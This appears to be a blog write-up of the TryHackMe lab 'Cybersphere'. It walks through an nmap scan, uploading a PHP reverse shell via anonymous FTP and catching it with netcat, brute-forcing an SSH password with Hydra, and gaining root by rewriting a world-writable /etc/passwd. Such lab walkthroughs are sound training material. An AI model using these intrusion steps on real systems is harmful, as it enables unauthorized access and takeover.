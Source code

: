 ```yaml
---
layout: post
title: "TryHackMe: Cybersphere"
categories: TryHackMe
published: true
---
```


![banner](/assets/pictures/cybersphere/Screenshot%20(164).png)

Greetings, esteemed l33t individuals! I hope this message finds you well. Today, I had the pleasure of discovering a brand new, highly vulnerable box that has been published on TryHackMe. I am thrilled to announce that the room, named "Cybersphere", has been created by none other than the talented jackmeister. I would like to take a moment to extend my sincerest gratitude and thanks to Jack for creating this fantastic opportunity for us to hone our skills and challenge ourselves. I am sure that this room will provide us with a wealth of knowledge and a chance to expand our abilities in the world of cybersecurity. Thank you, Jack, for your hard work and dedication in creating such a valuable and educational resource for the community.

---
## Reconnaissance
Let us embark on this exciting challenge by first executing an active port scanning process utilizing the versatile and powerful tool known as nmap. This vital step will allow us to gain a comprehensive understanding of the target system's current state, including the open ports, services running, and other relevant information.

> nmap  -sC  -p-  -sV  $IP  -oN  nmap.txt  --vv

* -sC - This is the switch for scanning common vuln using common script
* -p- - This is the switch to scan all possible opened ports of 65535
* -sV - This is the switch for scanning the running services 
* -oN - This is the switch to output the result in TXT format.
* --vv - Advance verbose

```bash
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 63
| fingerprint-strings: 
|   TLSSessionReq: 
|_    220 ProFTPD Server (ProFTPD) [::ffff:10.10.209.40]
22/tcp   open  ssh?    syn-ack ttl 63
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp   open  http?   syn-ack ttl 63
443/tcp  open  https?  syn-ack ttl 63
3306/tcp open  mysql   syn-ack ttl 63 MariaDB (unauthorized)
```

Upon examination of the server, it was revealed that there were a total of three open ports, namely FTP, SSH, HTTP/HTTPS, and MYSQL services. This presents us with an opportunity to further scrutinize the system and gather valuable information that could be utilized for our purposes. To start, let us focus our attention on port 80 and enumerate all the websites present on this port. The server appears to be using a simplistic and widely used XAMPP panel, which serves as the default landing page for the system. Through this, we can gain an understanding of the setup and configurations of the server, providing us with a solid foundation for future actions.

![xampp](/assets/pictures/cybersphere/Screenshot_2023-02-12_07_28_56.png)

After thoroughly examining the website, I was unable to find anything that sparked my interest. The only exception was the phpinfo page, which provided me with essential information regarding the PHP configuration of the website. However, I was disappointed to discover that I was unable to access phpMyAdmin as it was only accessible from the local network. This meant that I could not take advantage of its powerful features, such as managing databases, creating tables, and modifying data

![dirbrute](/assets/pictures/cybersphere/Screenshot_2023-02-12_07_28_47.png)

---

## Foothold

Upon conducting a thorough examination of the nmap results, I decided to test the security measures of the FTP server by attempting to log in as an anonymous user. To my surprise, the FTP server allowed access without the requirement of a password, leaving it vulnerable to potential threats.

This realization led me to ponder the potential presence of website files stored on the FTP server. The thought of exploiting this vulnerability to gain Remote Code Execution (RCE) came to mind. The idea was to upload a reverse shell, a type of software that would allow us to remotely execute commands on the server.

Given the lack of proper security measures in place, I couldn't help but think that this could be a golden opportunity to gain RCE. The potential impact of this action would be significant and could lead to further compromise of the target system.

![ftp-login](/assets/pictures/cybersphere/Screenshot_2023-02-12_07_44_58.png)

Upload a reverse shell and setup netcat listener.

```bash
ftp> put getin.php
local: getin.php remote: getin.php
229 Entering Extended Passive Mode (|||24444|)
550 getin.php: Permission denied
ftp> cd webalizer
250 CWD command successful
ftp> put getin.php
local: getin.php remote: getin.php
229 Entering Extended Passive Mode (|||51810|)
150 Opening BINARY mode data connection for getin.php
100% |************************************************************|  2583       15.29 MiB/s    00:00 ETA
226 Transfer complete
2583 bytes sent in 00:00 (9.82 KiB/s)
ftp> bye
221 Goodbye.
```

```bash
└─$ nc -nlvp 8899
listening on [any] 8899 ...
connect to [10.8.9.53] from (UNKNOWN) [10.10.211.108] 49938
Linux cybersphere 5.15.0-60-generic #66-Ubuntu SMP Fri Jan 20 14:29:49 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 08:37:10 up 4 min,  0 users,  load average: 3.84, 3.64, 1.59
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
sh: 0: can't access tty; job control turned off
```

During the process of thoroughly examining a server, I stumbled upon an unusual text file that was situated in the root (/) directory. The discovery of this peculiar text file sparked my curiosity and I couldn't resist the urge to investigate further. Upon closer inspection, I realized that this text file contained vital information that could potentially prove to be valuable.

```bash
$ cat n0t34j4ck
Dear Jack ,
Remember to remove the rce after done testing , and also change your password , seriously even my grandma can guess your password in 5 seconds.
```

As per the note referenced above, it appears that the sender has expressed concern regarding the weakness of Jack's password and has used the abbreviation "LOL" to emphasize their point. Given this information, I have decided to employ the use of Hydra, a brute force tool, to attempt to gain access to Jack's SSH password. While the process is underway, I am taking a short break to enjoy a cup of coffee as I patiently wait for Hydra to provide me with a valid password. The wait may be a bit long, but the satisfaction of a successful brute force attack is worth it, and I can't help but to express my excitement with a playful "XD".

So below is the valid password for jack

```bash
[22][ssh] host: 10.10.211.108   login: jack   password: qwertyuiop
```

User flag secured!

![userflag](/assets/pictures/cybersphere/Screenshot_2023-02-12_08_45_55.png)

---

## Privilege Escalation

Upon conducting a thorough examination of the user privilege associated with the sudo group, it was determined that Jack was only authorized to execute the sudo command on the /bin/cat binary strictly for the /etc/passwd file. At initial inspection, I entertained the notion that there might be a potential for a Local Privilege Escalation (LPE) given that the kernel version (5.15.0-60-generic) was found to be vulnerable to the Dirty Pipe exploit. However, after further examination, it became apparent that this virtual machine did not have the gcc compiler installed, thus rendering it impossible to execute any exploit scripts as they would require compilation.

```bash
jack@cybersphere:~$ sudo -l
Matching Defaults entries for jack on cybersphere:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jack may run the following commands on cybersphere:
    (ALL) NOPASSWD: /bin/cat /etc/passwd
```

After spending several minutes in deep thought, I decided to run the Linpeas tool on the /tmp directory, and to my surprise, I discovered a potentially vulnerable file. Upon closer inspection, I noticed that the passwd file was writable, which is a cause for concern. This is due to the fact that its permissions were set in such a way that anyone could edit it, thus potentially leading to a serious security breach and the potential for privilege escalation. As you can see from the permissions listed below, the file was wide open, which is a clear indication of the vulnerability that it presents.

> -rwxrwxrwx 1 root root 3073 Feb 11 07:34 /etc/passwd

Thus, I generated a new hashed password using openssl and copied it into the root:x: column inside the passwd file.

```bash
jack@cybersphere:~$ openssl passwd toor $1$UuLr25tj$46BKOzZhg0rrxKxb9EI9i.
```

![passwd](/assets/pictures/cybersphere/Screenshot_2023-02-12_09_00_10.png)


Save it and switch to root using the previously created password, and we gain root!

![root](/assets/pictures/cybersphere/Screenshot_2023-02-12_09_00_27.png)

---

It is with great admiration and appreciation that I extend my heartfelt hats off to [Chilax](https://tryhackme.com/p/Chilax), who is also known by the online handle of @jackmeister, for conjuring up this magnificent challenge. I have thoroughly relished the experience of tackling your puzzle, and I eagerly anticipate the prospect of tackling another one of your captivating creations in the near future. The excitement I feel while attempting your challenges is simply indescribable, and I simply cannot wait to embark on the next one! XDXD.


